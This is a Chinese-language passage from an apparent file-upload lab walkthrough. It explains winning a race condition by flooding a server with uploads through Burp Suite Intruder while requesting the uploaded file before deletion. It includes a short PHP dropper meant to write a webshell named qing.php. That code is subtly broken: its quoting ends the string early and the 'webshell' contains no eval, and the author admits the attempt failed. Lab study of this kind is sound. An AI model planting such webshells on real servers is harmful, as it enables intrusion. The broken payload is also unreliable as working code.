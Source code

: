 那么如何大量发送我们的木马文件呢？使用BP的`Intuder`功能

我们自己构造一个木马程序，代码如下
```
<?php
$myfile = fopen("qing.php","w");
$txt="<?php $_POST["webshell"] ?>";
fwrite($myfile,$txt);
fclose($myfile);
?>
```

抓包，放到攻击器中
![Pasted image 20250421084809.png](/img/user/PNG/Pasted%20image%2020250421084809.png)

并发数：同一时间发送的文件数（线程数）
具体操作，先清除payload ，如图操作
![Pasted image 20250421085219.png](/img/user/PNG/Pasted%20image%2020250421085219.png)![Pasted image 20250421085331.png](/img/user/PNG/Pasted%20image%2020250421085331.png)
我们这里的攻击payload就准备好了，但是现在的操作仅仅是上传文件，为了能读到`qing.php`这个木马文件，我们需要不断的去请求后台，在后台删除前请求成功。为此，我们需要大量的请求后台。按下图操作

![Pasted image 20250421085844.png](/img/user/PNG/Pasted%20image%2020250421085844.png)
![Pasted image 20250421085949.png](/img/user/PNG/Pasted%20image%2020250421085949.png)
![Pasted image 20250421090048.png](/img/user/PNG/Pasted%20image%2020250421090048.png)

之后我们就正式开始竞争，先发送上传文件，再发送请求文件。
这里的话我没有成功，但是原理确实如此。时间竞争不一定会成功

## 第十八关：条件竞争之重命名竞争
